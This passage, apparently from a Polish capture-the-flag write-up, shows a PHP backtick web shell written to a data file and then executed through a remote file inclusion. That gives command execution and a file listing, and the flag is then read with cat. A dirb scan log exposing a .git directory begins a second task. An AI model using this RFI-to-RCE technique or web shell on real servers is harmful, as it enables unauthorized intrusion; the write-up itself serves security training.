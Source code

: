 ```php
<?php echo `ls` ?>
```

który w moim przypadku zapisał się do pliku data/6224c8296dab5.txt i wywołując nasz remote file inclusion wpisując adres http://165.232.88.198/?page=data/6224c8296dab5.txt dostajemy remote code execution i listę plików na serwerze:

```
data
home.html
index.php
kontakt.html
logo.png
onas.html
this_is_the_file_containg_our_flag.txt
zespol.html
```

z czego oczywiście jeden z plików zawiera naszą flagę. Wywołując podobny fragment kodu php jak poprzednio, ale używając cata możemy odczytać zawartość pliku this_is_the_file_containing_our_flag.txt i otrzymać flagę.

### Gildia internetowych troli

W zadaniu oprócz linka do pliku index.html w którym znajdziemy wyedytowaną flagę otrzymujemy również plik z logiem z programu dirb:

```
---

DIRB v2.22  
By The Dark Raver

---

START_TIME: Sun Feb 27 12:44:34 2022
URL_BASE: https://1753ctf.ams3.digitaloceanspaces.com/g/

---

GENERATED WORDS: 4612

---- Scanning URL: https://1753ctf.ams3.digitaloceanspaces.com/g/ ----

- https://1753ctf.ams3.digitaloceanspaces.com/g/.git/HEAD (CODE:200|SIZE:23)  
  (!) WARNING: All responses for this directory seem to be CODE = 403.  
   (Use mode '-w' if you want to scan it anyway)

---

END_TIME: Sun Feb 27 12:44:43 2022
DOWNLOADED: 109 - FOUND: 1
```
